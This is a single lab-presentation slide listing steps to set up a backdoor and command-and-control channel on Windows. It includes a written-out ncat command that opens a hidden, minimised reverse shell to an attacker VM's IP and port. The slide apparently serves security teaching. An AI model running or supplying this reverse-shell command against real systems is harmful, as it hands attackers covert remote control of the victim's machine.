

# Backdoor / Command-and-Control – Experimental Steps
 Prepare the Tool
 Ensure ncat.exe is present (download via winget or curl).
 Launch Reverse Shell
Hidden execution:
 start /min cmd /c "ncat 172.20.10.15 12345 -e cmd.exe"
Verify C2 Channel
 Attacker VM should receive an interactive shell on port 12345.
12/05/2025
10